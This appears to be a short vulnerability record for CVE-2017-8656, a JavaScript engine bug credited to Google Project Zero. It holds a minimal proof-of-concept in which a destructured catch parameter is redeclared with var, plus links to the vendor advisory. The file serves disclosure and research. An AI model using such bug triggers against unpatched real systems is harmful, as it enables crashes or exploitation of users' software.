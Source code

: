 # CVE-2017-8656

- Fix: Aug 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function trigger() {
    try {
    } catch ({x}) {
        var x = 1;
    }

    print(x);
}

trigger();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8656)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1266)
